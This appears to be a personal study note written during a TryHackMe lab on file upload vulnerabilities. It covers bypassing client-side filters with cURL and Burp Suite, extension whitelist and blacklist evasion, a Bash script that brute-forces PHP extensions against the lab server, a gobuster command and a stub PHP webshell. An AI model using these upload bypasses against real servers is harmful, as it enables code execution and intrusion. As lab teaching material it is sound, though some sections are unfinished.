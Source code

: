 # Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

### 1. File extension

a) Presence of valid file extension anywhere within the filename (_whitelist bypass_)

Some server-side filtering mechanism check if the filename contains a valid file extension without enforcing strict validation at the end of the filenam. This logic can be exploited by including the allowed extension within the filename while using a malicious extension.

A possible server-side logic:

```php
IF STRING ".[file-ext]" IS IN VARIABLE <user_input>:
    PROCEED
ELSE:
    RETURN ERROR MESSAGE
```

Eg. Given that the valid file extension is `.jpg`. A possible valid filename can be: `shell.jpg.php`. This allows us to bypass the filter and upload a PHP file — providing us a platform for code execution..



b) Using uncommon file extension for the same file-type (_blacklist bypass_)

Some server-side filtering logic may check the file extension, and reject the file based on a blacklist. However, blacklist implementations are often incomplete, and fail to cover all possible extensions for the same file-type. This allows us to sneak a filename through the filters, which may be recognized and executed by the server.

Refer to the sub-page named: _**File extension cheat-sheet**_.

Eg. Given that `.php` is blacklisted, `.php5` may still be allowed. Thus, the filename `shell.php5` will be accepted by the server, and may execute if configured to handle `.php5` files as PHP scripts — providing us a platform for code execution.



### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

I decided to create a simple Bash shell script to automate the process of finding the valid filename.

_**php-ext.txt**_ (wordlist of PHP file extensions)

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
```

_**Bash shell script**_

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.



Simple webshell (to transfer to a dedicated _**WEBSHELL**_ section?)

```php
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value
    echo "Command: " . htmlspecialchars($cmd);
} else {
    echo "No command provided.";
}
?>
```



### 2. Magic numbers

Magic number refers to the 4 hexadecimal digits present at the start of a file. It is used to identify the type of file, and can be viewed by using the `xxd`/`hexdump` command (`hexeditor` to edit). This logic is implemented by some servers to detect the file-type for filtering purposes —  but unfortunately, can be easily workaround.

...



a) Fingerprint the webserver technology — nodejs, Apache/PHP, etc.

* Visit webpage which returns 404 (the webserver tech may be shown)
* nmap script
* response headers?



```bash
$ gobuster dir -u http://magic.uploadvulns.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt
```

`/index.php` (not present in the wordlist though) returned -> confirm PHP



b) Try common file upload directories for the found webserver technology (gobuster/manual?):

* assets/uploads/
* assets/js/ (if webserver is nodejs?)



c) ...&#x20;
